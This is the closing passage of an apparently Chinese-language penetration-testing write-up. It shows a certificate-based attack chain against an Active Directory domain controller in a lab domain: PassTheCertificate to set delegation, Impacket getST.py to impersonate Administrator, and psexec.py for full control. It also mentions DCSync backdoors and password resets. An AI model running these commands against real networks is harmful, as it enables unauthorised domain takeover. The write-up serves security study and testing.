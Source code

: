 ```powershell
PassTheCertificate.exe -CertPath .\Administrator.pfx -CertPassword 123456 -MachineAccount PENTEST$ -MachinePassword Passw0rd -Target "CN=DC01,OU=Domain Controllers,DC=pentest,DC=com"
```

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-a6413a2184bf15fa8468c9bbe4a81c887db7ab9b.png)

此时，我们可以通过 Impacket 套件中的 getST.py 执行基于资源的约束性委派攻击，并获取用于访问 DC01 机器上 CIFS 服务的高权限票据，如图下所示。

```bash
python3 getST.py pentest.com/PENTEST\$:Passw0rd -spn CIFS/DC01.pentest.com -impersonate Administrator -dc-ip 172.26.10.11
```

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-0f0e6aaed1c36a4f0f520a36bc93c69f7d81cd44.png)

最后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 psexec.py 获取域控制器的最高权限，如下图所示。

```bash
export KRB5CCNAME=Administrator.ccache
python3 psexec.py -k pentest.com/Administrator@dc01.pentest.com -no-pass
```

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-2002c2760f3c5f6a8ccf6b29a060b76f0971e238.png)

Ending......
------------

不仅是修改 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，由于我们是通过高权限帐户的证书认证到 LDAP 服务，因此可以执行任何类似的操作，例如活动目录查询、修改对象的属性、修改 AD 对象的 DACL、设置 DCSync 后门以及重置用户的密码等。

其实，早在去年中旬，[@AlmondOffSec](https://twitter.com/AlmondOffSec) 便发布过一个名为 [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) 的概念性工具，允许攻击者使用证书通过 Schannel 对 LDAP/S 服务器进行身份验证。并且，他们的研究同样始于 KDC\_ERR\_PADATA\_TYPE\_NOSUPP 报错。